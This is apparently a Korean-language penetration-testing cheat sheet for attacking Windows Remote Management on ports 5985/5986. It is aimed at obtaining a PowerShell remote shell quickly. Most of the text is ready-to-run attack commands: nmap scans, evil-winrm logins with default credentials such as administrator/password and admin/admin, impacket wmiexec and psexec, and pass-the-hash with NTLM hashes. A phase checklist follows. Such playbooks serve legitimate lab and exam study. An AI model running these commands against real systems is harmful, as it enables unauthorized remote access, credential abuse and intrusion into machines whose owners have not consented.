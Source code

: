 # 💻 WINRM ATTACKS (Port 5985/5986)

> **목표: WinRM 서비스 발견 후 20-25분 내에 PowerShell 원격 쉘 획득**

## ⚡ 즉시 실행할 명령어들

### 🚀 WinRM 발견 즉시 실행

```bash
# 1. WinRM 포트 및 정보 확인
nmap -sV -p 5985,5986 {IP}
nmap --script http-title -p 5985 {IP}

# 2. evil-winrm으로 즉시 연결 시도
evil-winrm -i {IP} -u administrator -p password
evil-winrm -i {IP} -u admin -p admin
evil-winrm -i {IP} -u guest -p ""

# 3. impacket-wmiexec 시도 (WinRM 관련)
impacket-wmiexec administrator:password@{IP}
impacket-psexec administrator:password@{IP}

# 4. WinRM NSE 스크립트 실행 (백그라운드)
nmap --script winrm-* -p 5985 {IP} &

# 5. 다른 서비스에서 수집한 크레덴셜 즉시 시도
evil-winrm -i {IP} -u {DISCOVERED_USER} -p {DISCOVERED_PASS}
```

### ⚡ 도메인 환경 크레덴셜 즉시 시도

```bash
# 도메인 사용자로 접근
evil-winrm -i {IP} -u {DOMAIN}\\{USERNAME} -p {PASSWORD}
evil-winrm -i {IP} -u {USERNAME}@{DOMAIN} -p {PASSWORD}

# NTLM 해시 활용 (확보시)
evil-winrm -i {IP} -u {USERNAME} -H {NTLM_HASH}
```

---

## 📋 단계별 체크리스트

### 🎯 Phase 1: 발견 및 기본 정보 수집 (5분)

- [ ] **WinRM 포트 확인** `nmap -p 5985,5986 {IP}`
- [ ] **HTTP/HTTPS WinRM 구분** (5985=HTTP, 5986=HTTPS)
- [ ] **WinRM 서비스 응답 확인**
- [ ] **운영체제 및 버전 확인**
- [ ] **도메인 환경 여부 확인**

